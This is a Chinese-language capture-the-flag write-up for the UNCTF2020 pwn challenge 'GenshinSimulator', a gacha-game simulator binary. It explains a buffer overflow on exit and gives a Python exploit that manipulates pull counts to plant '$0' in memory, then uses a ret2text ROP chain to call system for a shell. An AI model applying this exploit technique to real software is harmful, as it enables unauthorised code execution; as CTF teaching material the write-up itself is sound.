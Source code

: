 
## GenshinSimulator
- 题目描述
- 题目附件：[GenshinSimulator](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/unctf2020/pwn/GenshinSimulator/GenshinSimulator)
- 考察点：ret2text
- 难度：一般

### 程序分析
这题挺好玩儿。抽卡模拟器

``` 
欢迎使用原神抽卡模拟器！祝你好运~
请选择：[1]单抽 [2]十连 [3]结束抽卡
2
抽卡结果如下：
★★★ 神射手之誓
★★★ 沐浴龙血的剑
★★★★ 砂糖
★★★ 以理服人
★★★★ 雷泽
★★★ 沐浴龙血的剑
★★★★ 行秋
★★★★ 北斗
★★★★ 西风秘典
★★★★ 北斗
请选择：[1]单抽 [2]十连 [3]结束抽卡
1
抽卡结果如下：
★★★★ 笛剑
请选择：[1]单抽 [2]十连 [3]结束抽卡
3
恭喜你，一共抽到了5个4星角色、0个5星角色、4个3星武器、2个4星武器、0个5星武器！
请选择：[1]向好友炫耀 [2]退出
xxxbof
```

### 解题思路
可以十连抽，也可以单抽，抽卡结果在bss段。

退出时有个缓冲区溢出，程序中有`system`函数，没开PIE，因此直接控制抽三星卡的数量为`0x3024`，构造`'$0'`，然后直接ret2text，执行system("$0")即可。

``` python
prdi = 0x0000000000400d13 # pop rdi ; ret

target = 0x3024 # $0

cnt = 0
while 1:
    if target-cnt>9:
        sla('[1]单抽 [2]十连 [3]结束抽卡\n','2')
    else:
        sla('[1]单抽 [2]十连 [3]结束抽卡\n','1')
    ru('抽卡结果如下：\n')
    data = ru('请选择')
    for i in data.split('\n'):
        if i[:10] == '\xe2\x98\x85\xe2\x98\x85\xe2\x98\x85 ':
            cnt += 1
    print target - cnt
    if target - cnt == 0:
        break
    if target - cnt < 0:
        print 'try again'
        exit()
print 'done'
print cnt

sla('[1]单抽 [2]十连 [3]结束抽卡\n','3')
sla('请选择：[1]向好友炫耀 [2]退出\n','1')
ru('请输入你的名字：\n')
context.log_level = 'debug'

offset = 56
payload = 'A'*offset
payload += p64(prdi+1)
payload += p64(prdi) + p64(0x602314)
payload += p64(elf.sym['system'])

sl(payload)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/unctf2020/pwn/GenshinSimulator) 

